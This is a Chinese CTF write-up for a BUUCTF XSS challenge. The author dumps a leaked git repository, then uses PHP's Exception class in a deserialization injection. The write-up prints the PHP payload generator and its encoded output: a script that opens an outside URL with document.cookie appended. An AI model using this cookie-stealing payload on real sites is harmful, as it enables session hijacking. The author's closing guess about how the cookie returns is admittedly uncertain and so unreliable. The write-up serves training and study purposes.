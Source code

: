 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶场/BUU_[BJDCTF 2nd]xss之光.md","permalink":"/安全/靶场/BUU_[BJDCTF 2nd]xss之光/","title":"BUU_[BJDCTF 2nd]xss之光"}
---
```


进去发现就只有
![Pasted image 20241104211409.png](/img/user/picture/Pasted%20image%2020241104211409.png)

通过网站目录扫描工具，发现有git源码泄露
![Pasted image 20241104211630.png](/img/user/picture/Pasted%20image%2020241104211630.png)


用[git-dumper]()下载其源码
```shell
git-dumper http://website/ /root/workspace/tmp/
```

![Pasted image 20241104211844.png](/img/user/picture/Pasted%20image%2020241104211844.png)
发现其源码是一个反序列化，但是没有定义类，所以就利用php原生类
根据这一个题的题目可以推测这一个题的目的是利用XSS
最常见的就是利用XSS去获取Cookie

![Pasted image 20241104212738.png](/img/user/picture/Pasted%20image%2020241104212738.png)
可以看到php版本为5，所以我们要使用Exception类。

```php
<?php  
$poc = new Exception("<script>window.open('http://2b0f6770-883e-4dca-9d2d-8035b93f4cd7.node5.buuoj.cn/'+document.cookie);</script>");  
echo urlencode(serialize($poc));  
?>
```

输出：
```txt
O%3A9%3A%22Exception%22%3A7%3A%7Bs%3A10%3A%22%00%2A%00message%22%3Bs%3A108%3A%22%3Cscript%3Ewindow.open%28%27http%3A%2F%2F2b0f6770-883e-4dca-9d2d-8035b93f4cd7.node5.buuoj.cn%2F%27%2Bdocument.cookie%29%3B%3C%2Fscript%3E%22%3Bs%3A17%3A%22%00Exception%00string%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22%00%2A%00code%22%3Bi%3A0%3Bs%3A7%3A%22%00%2A%00file%22%3Bs%3A35%3A%22C%3A%5CUsers%5C29495%5CDesktop%5Ctmp%5Ctest.php%22%3Bs%3A7%3A%22%00%2A%00line%22%3Bi%3A2%3Bs%3A16%3A%22%00Exception%00trace%22%3Ba%3A0%3A%7B%7Ds%3A19%3A%22%00Exception%00previous%22%3BN%3B%7D
```

执行后发现flag就在cookie中
![Pasted image 20241104213400.png](/img/user/picture/Pasted%20image%2020241104213400.png)


这一题具体怎么获取的cookie我并不是很清楚，应该是只要用XSS执行了跳转，服务器就会将cookie返回给你
